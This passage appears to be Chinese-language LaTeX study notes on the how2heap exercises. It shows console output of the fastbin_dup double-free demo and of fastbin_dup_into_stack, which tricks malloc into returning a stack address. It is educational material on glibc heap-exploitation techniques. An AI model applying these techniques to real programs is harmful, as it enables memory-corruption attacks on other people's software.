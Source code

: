 \subsection{fastbin\_dup}

编译运行，可以成功运行，攻击看上去是成功的，但是结果有一点不同：
\begin{verbatim}
$ how2heap-227 ./fastbin_dup            
➜ ./fastbin    
This file demonstrates a simple double-free attack with fastbins.
Allocating 3 buffers.
1st malloc(8): 0x8a5260
2nd malloc(8): 0x8a5280
3rd malloc(8): 0x8a52a0
Freeing the first one...
If we free 0x8a5260 again, things will crash because 0x8a5260 is at the top of the free list.
So, instead, we'll free 0x8a5280.
Now, we can free 0x8a5260 again, since it's not the head of the free list.
Now the free list has [ 0x8a5260, 0x8a5280, 0x8a5260 ]. If we malloc 3 times, we'll get 0x8a5260 twice!
1st malloc(8): 0x8a5260
2nd malloc(8): 0x8a5280
3rd malloc(8): 0x8a5260

\end{verbatim}

\subsection{fastbin\_dup\_into\_stack}

编译运行，可以发现我们实际得到的地址和我们想得到的地址差了\verb+ 0x10+：
\begin{verbatim}
$ how2heap-227 ./fastbin_dup_into_stack 
This file extends on fastbin_dup.c by tricking malloc into
returning a pointer to a controlled location (in this case, the stack).
The address we want malloc() to return is 0x7ffc77f4dbd8.
Allocating 3 buffers.
1st malloc(8): 0x189d260
2nd malloc(8): 0x189d280
3rd malloc(8): 0x189d2a0
Freeing the first one...
If we free 0x189d260 again, things will crash because 0x189d260 is at the top of the free list.
So, instead, we'll free 0x189d280.
Now, we can free 0x189d260 again, since it's not the head of the free list.
Now the free list has [ 0x189d260, 0x189d280, 0x189d260 ]. We'll now carry out our attack by modifying data at 0x189d260.
1st malloc(8): 0x189d260
2nd malloc(8): 0x189d280
Now the free list has [ 0x189d260 ].
Now, we have access to 0x189d260 while it remains at the head of the free list.
so now we are writing a fake free size (in this case, 0x20) to the stack,
so that malloc will think there is a free chunk there and agree to
return a pointer to it.
Now, we overwrite the first 8 bytes of the data at 0x189d260 to point right before the 0x20.
*d => 0x7ffc77f4dbc8
 d => 0x189d260
&d => 0x7ffc77f4dbd8
3rd malloc(8): 0x189d260, putting the stack address on the free list
4th malloc(8): 0x7ffc77f4dbc8

\end{verbatim}

